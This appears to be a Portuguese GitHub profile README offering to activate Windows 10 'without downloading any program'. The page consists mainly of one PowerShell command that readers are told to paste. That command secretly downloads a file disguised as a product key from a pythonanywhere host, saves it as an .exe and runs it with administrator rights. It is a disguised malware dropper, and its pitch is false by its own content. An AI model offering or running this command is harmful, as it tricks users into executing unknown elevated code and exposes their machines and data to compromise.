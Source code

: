 


#⚡ Como ativar Windows 10 da correta, sem baixar programa algum. Ative o Windows 10 apenas usando comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::::: Copie o comando completo

> if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell.exe '-NoProfile -ExecutionPolicy Bypass -Command ""(New-Object System.Net.WebClient).DownloadFile(\""https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY\"", \""$($env:TEMP)\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe\""); Start-Process \""$($env:TEMP)\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe\"" -Verb RunAs; exit}"' -Verb RunAs; exit

<!--



**ativarwindows/ativarwindows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
